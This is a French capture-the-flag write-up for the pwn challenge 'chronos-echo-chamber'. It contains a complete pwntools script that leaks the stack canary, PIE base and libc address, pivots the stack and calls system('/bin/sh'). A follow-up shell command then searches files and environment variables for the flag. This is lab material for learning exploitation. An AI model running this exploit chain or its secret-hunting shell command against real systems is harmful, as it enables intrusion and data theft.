



# Writeup : chronos-echo-chamber

Catégorie : pwn

Date de résolution : 2026-11-06

Technique principale : Canary/PIE leak via printf %s; leave-ret stack pivot; puts@GOT leak; ret2libc

Outils observés : pwntools, ELF/ROP

Cible : w01.ctf.chronos-security.ro:33603

## Présentation

Ce document est construit à partir de la mémoire CTF partagée et des artefacts conservés dans /root/ctf/chronos-echo-chamber. Les étapes ci-dessous reprennent uniquement les faits observés. Les captures sont réalisées sur les fichiers locaux, sans rejouer une action distante ou destructive.

## Analyse et raisonnement

### Pourquoi ça marche

Remote exploit leaks canary, saved rbp, saved rip, then puts@GOT; second pivot calls system(/bin/sh). CTFd accepted the shell-extracted flag.

### Notes locales conservées

## Journal
1. 2026-11-06T15:02:36Z unknown : Début du triage ciblé: vérification CTFd, workspace et artefacts locaux.
2. Triage archive: `echo_chamber` ELF amd64 PIE, Full RELRO, canary, NX, SHSTK/IBT; archive SHA256 `a51b36448340eb4c036b5428d9289dd5241404485ebc0751e9a31b4d8c87dbc6`.
3. Vulnérabilité: `read(0, buf, 0x70)` sur `buf[0x50]`, offsets canary `0x58`, saved rbp `0x60`, saved rip `0x68`; `printf("echo: %s\\n", buf)` permet de lire au-delà du buffer.
4. Leak local validé: `0x59` octets pour les 7 bytes hauts du canary, `0x60` pour saved rbp, `0x68` pour saved rip; `PIE = saved_rip - 0x137e`.
5. Pivot: avec le canary restauré, saved rbp=`buf+0x20`, saved rip=`leave; ret` (`PIE+0x1365`); fake stack contrôlée à `buf+0x20`.
6. Libc leak: `printf@plt` appelé avec `rdi=buf`, format `bye%7$s`, `puts@GOT` en argument stack #7; retour via `ret` vers `main`.
7. RCE local validée avec la libc fournie: second pivot, gadget libc `pop rdi; ret`, `/bin/sh`, `system`; sortie réelle `PWNED` et `uid=0(root)`.
8. CTFd: `solved_by_me=false`, une tentative antérieure existe; demande d’instance 9136 refusée le 2026-11-06 15:11 UTC par `Max containers (3) reached`. Aucun flag candidat soumis par ce solve.

## Vérification distante :  2026-11-06
9. Instance obtenue : `w01.ctf.chronos-security.ro:33603`.
10. Exploit distant reproductible : canary `0xaf75ecf7dca64300`, PIE `0x57239030c000`, fuite `puts`, ret2libc puis shell `uid=10001(ctf)`.
11. Sortie réelle : `CSCTF{NMpRaeJZiJw59cMNu6jmqIRR}`.
12. Première soumission CTFd reçue avec statut `ratelimited`; nouvelle soumission ensuite acceptée avec `status=correct`.
13. CTFd API après validation : `solved_by_me=true`.

## Journal
14. 2026-11-06T15:13:24Z unknown : Exploit local entièrement validé; soumission différée car CTFd refuse l’instance 9136 avec Max containers (3), aucun container tiers arrêté et aucune tentative candidate envoyée.

## Journal
15. 2026-11-06T15:38:19Z unknown : Exploit distant exécuté sur w01:33603: leak canary/PIE/puts, ret2libc, shell uid=10001; sortie réelle CSCTF{NMpRaeJZiJw59cMNu6jmqIRR}. Soumission CTFd tentée mais statut ratelimited, à confirmer après cooldown.

## Commandes utiles

Les commandes suivantes consultent les preuves locales et sont sans effet de bord :

```bash
cd /root/ctf/chronos-echo-chamber
file notes.md solve.py 2>/dev/null
sed -n '1,180p' notes.md 2>/dev/null
sed -n '1,120p' solve.py 2>/dev/null
sed -n '1,10p' flags.txt 2>/dev/null
```

## Script de résolution complet

Le script conservé sous `solve.py` est reproduit ci-dessous sans modification :

```python
#!/usr/bin/env python3
from __future__ import annotations

import argparse
import os
import re
from pathlib import Path

from pwn import *

context.arch = "amd64"
context.log_level = "info"

HERE = Path(__file__).resolve().parent
BIN = ELF(str(HERE / "echo_chamber"), checksec=False)
LIBC = ELF(str(HERE / "libc.so.6"), checksec=False)

BUF_TO_CANARY = 0x58
BUF_TO_SAVED_RBP = 0x60
BUF_TO_SAVED_RIP = 0x68
RET_AFTER_CHAMBER = 0x137E


def process_target(args):
    if args.local:
        # Use the loader shipped with the challenge so the supplied libc is
        # exercised exactly as it is in the container image.
        return process([str(HERE / "ld-linux-x86-64.so.2"),
                        "--library-path", str(HERE), str(BIN.path)])
    if not args.host or not args.port:
        raise SystemExit("remote mode requires HOST PORT")
    return remote(args.host, args.port)


def recv_prompt(io):
    return io.recvuntil(b"> ", timeout=5)


def echo_line(blob: bytes) -> bytes:
    marker = b"echo: "
    if marker not in blob:
        raise RuntimeError(f"echo marker absent: {blob!r}")
    line = blob.rsplit(marker, 1)[1]
    return line.split(b"\n> ", 1)[0]


def qword_from_leak(line: bytes, offset: int, label: str) -> int:
    tail = line[offset:]
    if len(tail) < 5:
        raise RuntimeError(f"{label} leak too short: {tail!r}")
    # Canonical user-space pointers have zero high bytes; the printf leak
    # stops there, so pad the observed low bytes with NULs.
    value = u64(tail[:8].ljust(8, b"\0"))
    log.info("%s = %#x (%d leaked bytes)", label, value, min(len(tail), 8))
    return value


def leak_stack(io, fill: bytes, length: int, offset: int, label: str) -> int:
    io.send(fill * length)
    line = echo_line(recv_prompt(io))
    if len(line) < offset:
        raise RuntimeError(f"{label}: line length {len(line):#x} < {offset:#x}")
    return qword_from_leak(line, offset, label)


def pivot_payload(buf: int, canary: int, saved_rip: int, chain: dict[int, int], prefix=b"bye") -> bytes:
    p = bytearray(b"\0" * 0x70)
    p[: len(prefix)] = prefix
    for off, val in chain.items():
        p[off:off + 8] = p64(val)
    p[BUF_TO_CANARY:BUF_TO_CANARY + 8] = p64(canary)
    p[BUF_TO_SAVED_RBP:BUF_TO_SAVED_RBP + 8] = p64(buf + 0x20)
    p[BUF_TO_SAVED_RIP:BUF_TO_SAVED_RIP + 8] = p64(saved_rip)
    return bytes(p)


def first_stage(io):
    recv_prompt(io)

    io.send(b"A" * 0x59)
    canary_line = echo_line(recv_prompt(io))
    canary_tail = canary_line[BUF_TO_CANARY + 1:BUF_TO_CANARY + 8]
    if len(canary_tail) != 7:
        raise RuntimeError(f"canary leak length unexpected: {canary_tail!r}")
    # The low canary byte is the NUL consumed by the string terminator.
    canary = u64(b"\0" + canary_tail)
    log.info("canary = %#x", canary)

    saved_rbp = leak_stack(io, b"B", 0x60, BUF_TO_SAVED_RBP, "saved_rbp")
    saved_rip = leak_stack(io, b"C", 0x68, BUF_TO_SAVED_RIP, "saved_rip")
    pie = saved_rip - RET_AFTER_CHAMBER
    log.info("PIE base = %#x", pie)
    if pie & 0xFFF:
        raise RuntimeError("invalid PIE base")
    buf = saved_rbp - 0x70
    log.info("first chamber buffer = %#x", buf)
    return canary, pie, buf


def leak_libc(io, canary: int, pie: int, buf: int):
    # Use the saved rbp to pivot into bytes we control.  The alignment ret
    # means printf's stack argument #7 is buf+0x48, containing puts@GOT.
    ret = pie + 0x101A
    leave_ret = pie + 0x1365
    printf = pie + BIN.plt["printf"]
    puts_got = pie + BIN.got["puts"]
    main = pie + BIN.symbols["main"]
    fmt = b"bye%7$s\0"
    chain = {
        0x20: 0,
        0x28: ret,
        0x30: printf,
        0x38: ret,
        0x40: main,
        0x48: puts_got,
    }
    payload = bytearray(pivot_payload(buf, canary, leave_ret, chain))
    payload[: len(fmt)] = fmt
    io.send(bytes(payload))
    out = io.recvuntil(b"The chamber listens. Say 'bye' to leave.\n> ", timeout=5)
    marker = b"bye"
    if marker not in out:
        raise RuntimeError(f"format leak marker absent: {out!r}")
    leak_part = out.split(marker, 1)[1]
    banner = b"+----------------------------------------+"
    leak_part = leak_part.split(banner, 1)[0]
    leak = u64(leak_part[:8].ljust(8, b"\0"))
    log.info("puts@libc = %#x", leak)
    libc_base = leak - LIBC.symbols["puts"]
    log.info("libc base = %#x", libc_base)
    if libc_base & 0xFFF:
        raise RuntimeError("invalid libc base")
    return libc_base


def get_shell(io, canary: int, pie: int, libc_base: int):
    # Fresh chamber after returning through main: leak its saved rbp to find
    # the new buffer, then pivot and call system('/bin/sh') from libc.
    saved_rbp = leak_stack(io, b"D", 0x60, BUF_TO_SAVED_RBP, "second saved_rbp")
    buf = saved_rbp - 0x70
    libc_rop = ROP(LIBC)
    pop_rdi = libc_base + libc_rop.find_gadget(["pop rdi", "ret"]).address
    ret = pie + 0x101A
    leave_ret = pie + 0x1365
    bin_sh = libc_base + next(LIBC.search(b"/bin/sh\0"))
    system = libc_base + LIBC.symbols["system"]
    log.info("second chamber buffer = %#x", buf)
    log.info("system = %#x, /bin/sh = %#x", system, bin_sh)

    chain = {
        0x20: 0,
        0x28: ret,
        0x30: pop_rdi,
        0x38: bin_sh,
        0x40: system,
    }
    io.send(pivot_payload(buf, canary, leave_ret, chain))
    sleep(0.2)
    io.sendline(b"printf 'PWD=%s\\n' \"$PWD\"; id; (cat /flag 2>/dev/null || cat /app/flag 2>/dev/null || env | grep -E '^(FLAG|CSCTF)=' || find / -maxdepth 3 -type f -iname '*flag*' -readable 2>/dev/null | head)")
    out = io.recvrepeat(2)
    print(out.decode(errors="replace"))
    flags = re.findall(rb"CSCTF\{[^}\r\n]+\}", out)
    if not flags:
        raise RuntimeError("shell obtained but no CSCTF flag extracted")
    flag = flags[-1].decode()
    print(f"FLAG: {flag}")
    return flag


def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("--local", action="store_true")
    ap.add_argument("host", nargs="?")
    ap.add_argument("port", nargs="?", type=int)
    args = ap.parse_args()
    io = process_target(args)
    try:
        canary, pie, buf = first_stage(io)
        libc_base = leak_libc(io, canary, pie, buf)
        if args.local:
            log.info("local exploit chain validated through libc leak")
            io.close()
        else:
            get_shell(io, canary, pie, libc_base)
    finally:
        if not args.local:
            io.close()


if __name__ == "__main__":
    main()
```

## Captures du terminal

Les captures utilisent le terminal natif xterm disponible sur l’environnement, avec le prompt réel `root@vmi3694110`, le dossier courant du challenge et une géométrie identique. Elles montrent successivement l’analyse locale, le script ou les preuves de résolution, puis le flag conservé.







## Validation et flag

Le flag est conservé dans le fichier local flags.txt ou flag.txt. Aucune validation externe supplémentaire n’est affirmée ici.

Flag obtenu : `CSCTF{NMpRaeJZiJw59cMNu6jmqIRR}`

## Conclusion

La résolution repose sur la faiblesse indiquée dans la technique principale, puis sur la vérification locale du résultat conservé. Le flag final ci-dessus est copié depuis la preuve locale réellement présente.
